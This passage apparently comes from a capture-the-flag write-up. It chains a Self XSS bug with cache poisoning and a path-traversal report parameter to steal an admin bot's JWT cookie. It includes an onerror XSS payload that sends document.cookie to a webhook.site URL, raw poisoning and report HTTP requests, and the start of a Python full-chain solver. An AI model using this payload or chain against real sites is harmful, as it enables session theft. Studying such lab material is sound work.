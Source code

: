 Chaining Self XSS with Cache Poisoning 🧪
If we can make the browser bot view our Self XSS, we can steal the flag. If we take a closer look at the cache key, we'll notice the application is not behind a proxy, so the x-forwarded-for header is not present by default. We can specify the Host and x-forwarded-for header to match the admin bot's cache key to poison the cache for admin:



To exfiltrate the admin cookie, we can use the following payload that will update the first image on the document with a webhook URL and append the document cookie:

![Uh oh...](https://www.example.com/image.png"onerror="document.images[0].src='https://webhook.site/0533b7fd-7e8c-44b4-a934-e71f0c2f039c?x='+document.cookie)
Now we can poison the cache for the preview endpoint of admin by sending the following request:

POST /threads/preview?__poisoned__ HTTP/1.1
Host: 127.0.0.1:1337
X-Forwarded-For: 127.0.0.1
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTEsInVzZXJuYW1lIjoicmgweDAxNTI3MyIsInJlcHV0YXRpb24iOjAsImNyZWRpdHMiOjEwMCwidXNlcl9yb2xlIjoiTmV3YmllIiwiYXZhdGFyIjoibmV3YmllLndlYnAiLCJqb2luZWQiOiIyMDIyLTA3LTE4IDE0OjMzOjU3IiwiaWF0IjoxNjU4MTU0ODM3fQ.i3wHIaVkDs9AJWpWysiJFdJD20cO7yTVpjJi1VKn8jI
Content-Length: 250
Content-Type: application/x-www-form-urlencoded

title=nine+mountains+and+eight+seas&content=%21%5BUh+oh...%5D%28https%3A%2F%2Fwww.example.com%2Fimage.png%22onerror%3D%22document.images%5B0%5D.src%3D%27%2F%2Fwebhook.site%2F0533b7fd-7e8c-44b4-a934-e71f0c2f039c%3Fx%3D%27%2Bdocument.cookie%29&cat_id=2
Finally, we have to make the bot visit the cached endpoint to trigger the XSS. If we take a look at the /api/report endpoint route, the post_id is not validated for malicious inputs, so we have partial control of the URL visited by the bot:

POST /api/report HTTP/1.1
Host: 127.0.0.1:1337
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTEsInVzZXJuYW1lIjoicmgweDAxNTI3MyIsInJlcHV0YXRpb24iOjAsImNyZWRpdHMiOjEwMCwidXNlcl9yb2xlIjoiTmV3YmllIiwiYXZhdGFyIjoibmV3YmllLndlYnAiLCJqb2luZWQiOiIyMDIyLTA3LTE4IDE0OjMzOjU3IiwiaWF0IjoxNjU4MTU0ODM3fQ.i3wHIaVkDs9AJWpWysiJFdJD20cO7yTVpjJi1VKn8jI
Content-Length: 46
Content-Type: application/json

{"post_id": "../threads/preview?__poisoned__"}
After submitting the report, the bot visits the preview endpoint and receives our cached response with the XSS payload, and the JWT cookie is exfiltrated to the webhook log URL. We can decode the JWT token from jwt.io, which displays the flag for this challenge:



And that concludes the quest for this challenge! Here's the full-chain solver for this challenge:
```
#!/usr/bin/env python3

import sys, requests, time, random, jwt

hostURL = 'http://127.0.0.1:1337'             # Challenge host URL
userName = f'rh0x01{random.randint(1111,9999)}' # new username
userPwd = f'rh0x01{random.randint(1111,9999)}'  # new password

def register():
	jData = { 'username': userName, 'password': userPwd }
	req_stat = requests.post(f'{hostURL}/api/register', json=jData).status_code
	if not req_stat == 200:
		print("Something went wrong! Is the challenge host live?")
		sys.exit()

def login():
	jData = { 'username': userName, 'password': userPwd }
	authCookie = requests.post(f'{hostURL}/api/login', json=jData).cookies.get('session')
	if not authCookie:
```